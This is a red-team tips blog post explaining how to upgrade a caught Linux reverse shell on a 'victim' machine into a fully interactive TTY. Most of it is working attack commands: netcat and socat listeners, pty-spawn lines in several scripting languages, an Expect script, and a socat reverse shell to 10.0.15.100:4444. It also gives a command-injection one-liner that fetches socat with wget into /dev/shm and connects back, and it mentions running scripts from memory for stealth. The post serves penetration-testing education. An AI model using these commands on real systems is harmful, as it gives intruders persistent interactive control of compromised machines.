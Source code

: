 ```yaml
---
description: >-
  How to upgrade a linux reverse shell to a fully usable TTY shell
title: Upgrade a linux reverse shell to a fully usable TTY shell                    # Add title of the machine here
date: 2021-04-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, socat, expect, python, linux, macos]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


![Hack responsibly disclaimer](/assets/markups/1-hack-responsibly.svg)

## Upgrading remote shells (Unix machines only)

Usually, after catching a shell through netcat you are placed in a shell that has very limited functionality. If the remote machine has Python installed you can easily upgrade to a fully functional TTY shell.

 **Note:** To check if the shell is a TTY shell use the `tty` command.
 
You can also mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the `rlwrap` command.  This is not installed by default so you will need to install it using `sudo apt rlwrap`.

```bash
rlwrap nc -lvnp $port
```

## Upgrade to fully interactive shell using Python:

1. First, after recieving your reverse shell you need to check the availability of Python. You can do this with the `which` command.

```bash
which python python2 python3
```

If any of these are installed this command will return the full path of the installed binary.  

Note: The `which` command will only report programs that are installed in a folder that exists in `$PATH`.  Python will almost always be in a `$PATH` directory so this should not be an issue.

2. Next, on the victim machine type the below command (using the version of python that is available on the machine!)

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell
```

Your command prompt may or may not change to reflect the new shell.  If it does not change, do not panic as this is configured locally and will depend on setting on the machine you are on.

3. Next, type `ctrl-z` to send your shell to the background.

4. On your attack platform, you will need to set up your shell to send control charcters and other raw input through the reverse shell.  You can do this by using the `stty` command as below.

```bash
stty raw -echo
stty size 
```

The second command above will report the size of your terminal window in rows and columns.  This is useful for command output that either fills the whole terminal (such as when using programs such as `nano` or `vim`) or that would output lines that are too long to fit in the window.  Fixing the window size will allow for word-wrapping instead of cutting off output that is too long.

5. After that, type the command `fg` to return the reverse shell to the foreground.

6. Next, on the victim machine type the below commands to set some important environment variables.

```bash
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

Viola!  You should now be the proud owner of a shiny new fully upgraded TTY shell with command history using the 'up' and 'down' arrows.  This shell will also allow you to use the command `clear` to clear your screen and 'control' commands, such as `ctrl-c` to kill remotely running processes rather than your own shell! Enjoy!


## Using Other Scripting Languages:

Below are some examples of other scripting languages that can be used to achieve the same upgraded shell as the second step above.  Afterwards follow along from step 3.

```python
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"
```

## Using “Expect” To Get A TTY

If you’re lucky enough to have the [Expect](http://en.wikipedia.org/wiki/Expect) language installed just a few lines of code will get you a good enough TTY to run useful tools such as “ssh”, “su” and “login”.

Create a script called `sh.exp`

```bash
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

Then, execute this script on the victim machine.  For added sneakiness, run the script [from memory](https://zweilosec.github.io/posts/execute-in-memory/).

## Using socat

Another option is to upload the binary for `socat` to the victim machine and magically get a fully interactive shell. Download the appropriate binaries from [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries). Socat needs to be on both machines for this to work.

```bash
#Create Listener on attack platform:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#From Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

## socat one-liner

This one-liner can be injected wherever you can get command injection for an instant fully interactive reverse shell. Point the path to the binary to your local http server if internet access is limited on the victim.

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

### Disclaimer

Note: The methods above will not work in every situation.  For example, I have regularly run into a problem on my Kali machine where attempting to use `stty raw -echo` while using `zsh` as my shell will cause the entire terminal to become unusable.  I have gotten around this issue by switching to `bash` before I start any netcat listener that I will be using to catch a shell.

## Other Examples

If you have any other examples of methods of upgrading reverse shells, or have any other fun or useful tips or tricks, feel free to contact me on Github at [https://github.com/zweilosec](https://github.com/zweilosec) or on social media!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>

